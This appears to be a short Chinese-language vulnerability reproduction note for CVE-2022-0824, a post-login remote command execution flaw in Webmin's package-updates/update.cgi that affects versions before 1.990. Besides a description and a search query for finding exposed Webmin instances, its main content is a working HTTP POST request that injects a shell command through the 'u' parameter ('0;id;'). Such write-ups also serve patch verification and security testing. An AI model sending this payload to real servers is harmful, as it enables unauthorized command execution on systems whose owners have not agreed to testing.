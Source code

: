 # Webmin update.cgi 后台远程命令执行漏洞 CVE-2022-0824

## 漏洞描述

Webmin是Webmin社区的一套基于Web的用于类Unix操作系统中的系统管理工具。

Webmin 1.990之前版本存在安全漏洞，该漏洞源于软件中存在不正确的访问控制，攻击者可以利用该漏洞实现远程代码执行

## 漏洞影响

```
Webmin < 1.990
```

## 网络测绘

```
app="webmin"
```

## 漏洞复现

登录页面

![image-20220829101939637](images/202208291022969.png)

登录后发送请求包

```
POST /package-updates/update.cgi HTTP/1.1
Cookie: sid=882af4543067bc6214d2c769325f3b2f
Referer: http:///package-updates/update.cgi?xnavigation=1

mode=new&search=ssh&redir=&redirdesc=&u=0;id;&confirm=Install+Now
```

![image-20220829102233314](images/202208291022378.png)